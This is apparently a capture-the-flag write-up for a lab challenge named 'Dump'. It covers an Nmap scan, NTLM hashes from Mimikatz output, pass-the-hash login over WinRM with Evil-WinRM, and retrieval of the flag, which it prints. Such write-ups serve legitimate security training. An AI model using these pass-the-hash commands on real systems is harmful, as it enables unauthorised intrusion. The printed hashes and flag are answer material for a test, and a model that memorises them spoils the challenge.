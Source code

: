 # Dump

## Challenge Description
> ![image](https://github.com/user-attachments/assets/c775c523-203b-4fdc-8e67-9491bd3df4c0)

## Solution
To identify open ports and services running on the target machine, we executed an Nmap scan:
```
$ nmap -p 5985,5986 -sC -sV 10.10.250.160
```
Scan result:
```
PORT     STATE  SERVICE VERSION
5985/tcp open   http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp closed wsmans
```

The scan revealed that WinRM (Windows Remote Management) is enabled on port 5985, which can be exploited for remote access if valid credentials are available.

The document contains **Mimikatz** output with authentication details. The usernames, domains, passwords, and NTLM hashes are extracted and tablulated as shown below:

| Username         | Domain      | NTLM Hash                            |
|-----------------|------------|----------------------------------------|
| **ByteReaper**  | DUMP       | 43034346035d7a24b1eaa1c82acaef3e       |
| **NullPhantom** | DUMP       | 75b216fc8d12fbd0124d0c0865118e4d       |
| **specter**     | DUMP       | 2c3e48bac1b65c52fc0fb0cd70eaf3aa       |
| **Cipher**      | DUMP       | 6786c31df90f9568d4ca2480affeea9a       |
| **Administrator** | DUMP     | 2dfe3378335d43f9764e581b856a662a       |
| **ShadowPacket** | DUMP      | 5fe2eb8c75c48179bce6025e70859e47       |
| **GhostTrace**   | DUMP      | 4820e4687d0ed2845328aa492dc0b33c       |
| **DarkInjector** | DUMP      | 3a659a65d9c16d40a28684995782458f       |

Since **WinRM** is open and we have NTLM hashes, we leveraged Pass-the-Hash authentication using **Evil-WinRM**.
```
evil-winrm -i 10.10.250.160 -u <username> -H <NTLM hash>
```

After trying all the credentials, it was found that the credentials of **DarkInjector** were able to gain access to Administrator directory:

```
evil-winrm -i 10.10.250.160 -u DarkInjector -H 3a659a65d9c16d40a28684995782458f
```

Upon successful connection, we gained a PowerShell session on the target machine.

After gaining a foothold, we explored the user directories to identify valuable files.
```
cd C:\Users
ls
```

Output:
```
Directory: C:\Users

Mode                LastWriteTime         Name
----                -------------         ----
d-----         3/3/2025   1:40 AM          Administrator
d-----         3/3/2025   8:47 PM          ByteReaper
d-----         3/3/2025   8:35 PM          Cipher
d-----         3/3/2025   2:03 PM          DarkInjector
d-----         3/3/2025   8:48 PM          GhostTrace
d-----         3/3/2025   8:47 PM          NullPhantom
d-r---       12/12/2018   7:45 AM          Public
d-----         3/3/2025   8:48 PM          ShadowPacket
d-----         3/3/2025   8:44 PM          specter
```

We navigated to the Administrator directory, suspecting it contained high-value files.
```
cd Administrator
ls
```
Output:

![image](https://github.com/user-attachments/assets/8f895a3c-8571-45cf-a117-d612fb801279)

Navigating each directory and finally, the Desktop directory contained a flag file.

![image](https://github.com/user-attachments/assets/0de0124f-f201-4c5b-ba53-12e3bcca4ea9)

Finally, we retrieved the flag by reading the flag.txt file: 
```
cat flag.txt
```

![image](https://github.com/user-attachments/assets/f5fcaf1d-eb70-4ee4-9a38-1e11b567bd06)

## Conclusion

By leveraging WinRM, Evil-WinRM, and Pass-the-Hash authentication, we successfully gained remote access to the target machine. We navigated through the file system, located the flag, and completed the challenge.

## Flag: 
THM{1nj3ctBr34k3r5}

   
